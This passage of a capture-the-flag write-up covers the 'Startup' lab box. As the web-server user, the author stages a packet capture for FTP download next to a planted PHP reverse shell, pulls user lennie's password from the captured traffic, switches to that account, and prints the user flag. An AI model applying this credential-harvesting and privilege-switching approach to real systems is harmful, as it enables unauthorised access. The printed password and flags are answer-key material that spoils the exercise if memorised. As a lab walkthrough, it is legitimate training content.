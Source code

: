 ### Answer
```
love
```

&nbsp;

### What are the contents of user.txt?
-  We have to go to the `/incidents` directory.
```
www-data@startup:/incidents$ ls
suspicious.pcapng
```
- Let's copy the `suspicious.pcapng` file to the `ftp` directory.
```
www-data@startup:/incidents$ cp suspicious.pcapng /var/www/html/files/ftp/
www-data@startup:/incidents$ ls /var/www/html/files/ftp/
php-reverse-shell.php  suspicious.pcapng
```
- Let's look at the ftp login.
```
ftp> ls
229 Entering Extended Passive Mode (|||32073|)
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118          5494 Dec 06 06:28 php-reverse-shell.php
-rwxr-xr-x    1 33       33          31224 Dec 06 06:55 suspicious.pcapng
226 Directory send OK.
```
- We can now download this file using the `get` command.
```
ftp> get suspicious.pcapng
local: suspicious.pcapng remote: suspicious.pcapng
229 Entering Extended Passive Mode (|||41055|)
150 Opening BINARY mode data connection for suspicious.pcapng (31224 bytes).
100% |***********************************************************************************************************************************************************************************************| 31224      118.42 KiB/s    00:00 ETA
226 Transfer complete.
31224 bytes received in 00:00 (79.21 KiB/s)
```
- We can now use Wireshark to analyze the packet capture.
- In frame 45 we can see that the user has entered some commands.

![7](https://github.com/Knign/Write-ups/assets/110326359/9388df3c-90f7-4506-a642-6fab020f5913)

- Let `Follow TCP Stream`.

![8](https://github.com/Knign/Write-ups/assets/110326359/9f4c6323-2aa5-42ad-b864-86a42e678cca)

- The password for the `lennie` user is `c4ntg3t3n0ughsp1c3`.
```
www-data@startup:/$ su lennie
Password: 
lennie@startup:/$ 
```
- We can now go to `/home/lennie` and get the flag.
```
lennie@startup:/$ cd /home/lennie/
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt 
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```
### Answer
```
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```